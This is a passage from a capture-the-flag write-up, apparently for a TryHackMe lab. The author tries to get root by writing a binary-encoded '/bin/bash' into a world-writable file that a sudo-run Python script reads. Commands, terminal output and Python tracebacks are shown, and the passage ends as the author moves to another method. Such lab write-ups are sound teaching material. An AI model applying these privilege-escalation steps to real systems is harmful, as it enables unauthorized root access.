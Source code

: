 
Let’s see what the `/opt/binside` does:

```
yash@ubuntu:/home/yash$ ls -l /opt/binside
ls -l /opt/binside
-rwxrwxrwx 1 root root 0 Nov 17  2020 /opt/binside
yash@ubuntu:/home/yash$ cat /opt/binside
cat /opt/binside
```

Hmm… It’s empty. But it allows me to write on it with the **SUID** permission `x` right? And because the **emergency.py** displays a block of binaries, so I also insert the binary value into the `/opt/binside` too and which I use to insert in is the command that will establish the shell:

```
┌──(kali㉿kali)-[~/TryHackMe/battery]
└─$ echo -n "/bin/bash" | xxd -b
00000000: 00101111 01100010 01101001 01101110 00101111 01100010  /bin/b
00000006: 01100001 01110011 01101000                             ash
```

```
yash@ubuntu:/$ echo "00101111 01100010 01101001 01101110 00101111 01100010 01100001 01110011 01101000" > /opt/binside
<110 00101111 01100010 01100001 01110011 01101000" > /opt/binside
```

Ok, now run the **emergency.py** with `sudo`:

```
yash@ubuntu:/$ sudo python3 /home/yash/emergency.py
sudo python3 /home/yash/emergency.py
01110010 01100101 01100001 01100100 01101001 01101110 01100111 00100000 00101111 01101111 01110000 01110100 00101111 01100010 01101001 01101110 01110011 01101001 01100100 01100101 00100000 01100110 01101001 01101100 01100101
checking if you are a human.....................Test Passed [Traceback (most recent call last):
  File "/home/yash/emergency.py", line 20, in <module>
    inn=int(m,2)
ValueError: invalid literal for int() with base 2: '/bin/bash'

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/yash/emergency.py", line 29, in <module>
    delay_print("checking if you are a human.....................Test Passed [\u2714]\n\n")
  File "/home/yash/emergency.py", line 6, in delay_print
    sys.stdout.write(c)
UnicodeEncodeError: 'ascii' codec can't encode character '\u2714' in position 0: ordinal not in range(128)
```

Oops! There is a _UnicodeEncodeError_ from the file and it was caused by something that implemented by the authors.

Then I have to use the **Method 1** to get root and see what’s happening:
